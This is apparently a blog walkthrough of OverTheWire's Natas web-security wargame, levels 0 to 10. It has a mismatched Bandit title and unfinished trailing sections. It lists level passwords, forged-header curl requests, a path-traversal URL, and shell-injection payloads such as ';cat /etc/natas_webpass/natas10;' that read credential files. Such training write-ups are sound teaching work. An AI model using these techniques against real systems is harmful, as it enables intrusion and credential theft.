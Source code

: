 ```yaml
---
title: "Linux training with overthewire [Part 3/10: Bandit 21-30]"
author: Florian Courgey
layout: post
categories:
  - opensource
  - linux
  - bash
  - shell
  - hack
  - server
---
```

Excerpt here...
<!--more-->

This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-2 %})
- [Linux training with overthewire Part 3: Bandit 21-30]({% post_url 2018-11-30-linux-training-3 %})
- Linux training with overthewire Part 4: Natas

### Level 0 - View source
```
http://natas0.natas.labs.overthewire.org/ natas0 natas0
```
Right Click > View Source:

`<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->`

### Level 1 - Inspector
```
http://natas1.natas.labs.overthewire.org/ natas1 gtVrDuiDfck831PqWsLEZy5gyDz1clto
```
In Chrome, 2 options:
- view-source:http://natas1.natas.labs.overthewire.org/
- <kbd>Ctrl</kbd> <kbd>Shift</kbd> <kbd>J</kbd>

`<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->`

### Level 2 - Apache file listing
```
http://natas2.natas.labs.overthewire.org/ natas2 ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
```
http://natas2.natas.labs.overthewire.org/files/users.txt

`natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14`

### Level 3 - robots.txt
```
http://natas3.natas.labs.overthewire.org/ natas3 sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
```
- http://natas3.natas.labs.overthewire.org/robots.txt
```
User-agent: *
Disallow: /s3cr3t/
```
- http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

`natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`

### Level 4 - Modify HTTP headers
```
http://natas4.natas.labs.overthewire.org/ natas4 Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```
The idea is to modify the HTTP header `Referer`. 3 options:
- Use any HTTP Header browser extension ([for Firefox](https://addons.mozilla.org/en-US/firefox/search/?platform=windows&q=http%20header) and [for Chrome](https://chrome.google.com/webstore/search/http%20header))
- Get the browser application [RestClient]
- `curl` to edit the header:
```bash
curl 'http://natas4.natas.labs.overthewire.org' -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' -H 'Referer: http://natas5.natas.labs.overthewire.org/'
```
> bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va is the result of base64(natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ)

`Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq`

### Level 5 - Modify cookies
```
http://natas5.natas.labs.overthewire.org/ natas5 iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```
Same here, the HTTP response sets a Cookie: `Set-Cookie: loggedin=0`.

2 options:
- Download an extension
- `curl`
```bash
curl 'http://natas5.natas.labs.overthewire.org/' -H 'Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx' -H 'Cookie: __cfduid=d367f554011c7c1ab2210015e9dc5ac931544566497; loggedin=1'
```
`Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1`

### Level 6 - PHP include exploit 1
```
http://natas6.natas.labs.overthewire.org/ natas6 aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
The source includes another file:
```php
include "includes/secret.inc";
```
Open http://natas6.natas.labs.overthewire.org/includes/secret.inc
```php
$secret = "FOEIUWGHFEEUHOFUOIU";
```
Input it in the form and submit:
`Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9`

### Level 7 - PHP include exploit 2
```
http://natas7.natas.labs.overthewire.org/ natas7 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```
Source:
```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```
Test:
`natas7.natas.labs.overthewire.org/index.php?page=..`
`include(/var/www/natas): failed to open stream`

Exploit:
`http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8`
`DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe`

### Level 8 - PHP basic 2-way encoding functions
```
http://natas8.natas.labs.overthewire.org/ natas8 DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```
The source shows `return bin2hex(strrev(base64_encode($secret)));`, let's reverse it:
```bash
$ php -r "echo base64_decode(strrev(hex2bin('3d3d516343746d4d6d6c315669563362')));"
oubWYf2kBq
```
Input it in the form and here we are:
`Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl`

### Level 9 - Shell injection
```
http://natas9.natas.labs.overthewire.org/ natas9 W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```
Source shows a variable from the POST being injected into the PHP `passthru` function ([see passthru on php.net](https://secure.php.net/manual/en/function.passthru.php)).
```php
$key = $_REQUEST["needle"]; // $key is coming from the form POST input
passthru("grep -i $key dictionary.txt"); // passthru executes a shell command on the server
```
Let's inject some basic code such as `;ls -alh;` so the executed code becomes
```bash
grep -i ;ls -alh; dictionary.txt
```

```terminal
Output:
total 480K
drwxr-x---  2 natas9 natas9 4.0K Dec 20  2016 .
drwxr-xr-x 41 root   root   4.0K Oct 29 04:27 ..
-rw-r-----  1 natas9 natas9  118 Dec 20  2016 .htaccess
-rw-r-----  1 natas9 natas9  126 Oct 20 09:08 .htpasswd
-rw-r-----  1 natas9 natas9 451K Dec 15  2016 dictionary.txt
-rw-r-----  1 natas9 natas9 2.0K Dec 20  2016 index-source.html
-rw-r-----  1 natas9 natas9 1.2K Dec 20  2016 index.php
-rw-r-----  1 natas9 natas9 1.2K Dec 15  2016 index.php.tmpl
```

We can run pretty much anything (such as the classic enumerations `;ls /home;`, `;ls ..;`, `;pwd;`, `;uname -a;`..) and find with `;id;` that the running user is `uid=30009(natas9)`.

Also, like in the [Bandit series]({% post_url 2018-11-30-linux-training %}), passwords might be in `/etc`:
```bash
$ ;ls -alh /etc;
d---------  2 root root   4.0K Oct 29 04:27 natas_pass # not readable
drwx------  2 root root   4.0K Oct 25 06:30 natas_session_toucher # not readable
drwxr-xr-x  2 root root   4.0K Oct 29 04:27 natas_webpass # readable by anyone!!
$ ;ls -alh /etc/natas_webpass;
-r--r-----  1 natas9  natas8    33 Dec 20  2016 natas9
-r--r-----  1 natas10 natas9    33 Dec 20  2016 natas10 # natas10 pwd is group-readable by natas9
$ ;cat /etc/natas_webpass/natas10;
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

References
- https://en.wikipedia.org/wiki/Code_injection#Shell_injection
- https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013)
- https://github.com/PortSwigger/command-injection-attacker

### Level 10 -
```
http://natas10.natas.labs.overthewire.org/ natas10 nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```
``


### Level  -
```
http://natas1.natas.labs.overthewire.org/ natas gtVrDuiDfck831PqWsLEZy5gyDz1clto
```
``


This post is part of a series:
- [Linux training with overthewire Part 1: Bandit 1-10]({% post_url 2018-11-30-linux-training %})
- [Linux training with overthewire Part 2: Bandit 11-20]({% post_url 2018-11-30-linux-training-2 %})
- [Linux training with overthewire Part 3: Bandit 21-30]({% post_url 2018-11-30-linux-training-3 %})
- Linux training with overthewire Part 4: Natas
